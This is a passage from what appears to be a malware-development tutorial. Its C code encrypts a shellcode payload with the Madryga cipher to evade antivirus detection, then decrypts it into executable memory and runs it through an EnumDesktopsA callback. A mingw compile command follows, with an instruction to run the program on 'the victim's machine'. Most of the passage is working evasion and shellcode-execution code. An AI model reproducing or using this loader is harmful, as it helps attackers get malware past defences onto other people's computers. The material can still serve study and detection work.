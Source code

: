 ```cpp
  uint64_t key = 0x0123456789ABCDEF;

  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  madryga_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  madryga_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");
  
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  
  return 0;
}
```

As you can see, I added printing just for checking corectness.    

### demo

Let's go to compile our "malware":     

```bash
x86_64-w64-mingw32-gcc -O2 madryga.c -o madryga.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/90/2023-03-09_14-34.png){:class="img-responsive"}      

Then, run it at the victim's machine:     
